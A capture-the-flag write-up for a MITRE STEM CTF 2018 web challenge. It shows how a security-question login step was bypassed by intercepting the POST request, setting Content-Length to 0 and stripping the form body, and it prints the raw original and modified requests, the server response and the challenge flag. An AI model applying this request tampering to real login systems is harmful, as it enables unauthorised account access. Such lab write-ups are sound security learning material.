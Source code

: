 ##mitrestemctf2018-writeups

**mitrestemctf.org --- Two Problems --- Web 100 points**

Description:

"I lost my phone and I can't log in to my favorite website. Can you help me get access?"

**Issue:**

Login auth is immediately presented with 2 security questions, the user doesn't know the answer to either question

**We need to gain access w/o knowing security questions**

**Recon:**

1 - Initial link provided points to: http://138.247.115.171/home
- This is a login page with a set of credentials that are provided
- User: DonutsAreG8
- Pass: butChocolateIsBetter

2 - upon login we are presented with 2 security questions: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter

Let's take a look at the request headers to see what's being sent: 

--------------
POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 1 <--------- probably want to try setting this to 0 as well
Content-Type: application/x-www-form-urlencoded
Content-Length: 21 <----------- Content length is being passed in request headers

secQ1=1234&secQ2=1234 <--------- security question fields
----------------

**Hypothesis:** 
Intercept request, and modify "Content-Length" Header from 21 to 0, then forward request


**Resolution:**

1 - Use Chrome devtools to pull request headers initially to see how the web app responds to POST requests on the security questions page

2 - Once we have what *should* be in the request headers, run the same request in burpsuite (this can be done with curl as well from a shell, but it was faster to use burpsuite. Don't judge me)

3 - Intercept the POST for /login/donutsAreGr8/butChocolateIsBetter

4 - Modify the "Content-Length" header from "21" to "0"

5 - Modify the "Upgrade-Insecure-Requests" header from "1" to "0"

5 - Make sure to remove "secQ1=&secQ2=" from the payload (since the Content-Length 0 is now telling the web app to expect a 0 length payload)

6 - Forward request with modified header and payload to app. 

7 - App responds to request by letting us through past the security questions, and to waiting flag

8 - Profit :)

Request and response headers:

Original Request

POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

secQ1=&secQ2=


Modified Request

POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

Response

HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sat, 21 Apr 2018 06:18:54 GMT
X-Powered-By: Phusion Passenger 5.2.3
Server: nginx/1.12.2 + Phusion Passenger 5.2.3
Content-Length: 122

<title>Welcome</title>
Welcome donutsAreGr8!<br>
As thanks for using our website please accept this flag, MCA{Igkqs1Pn5w}.
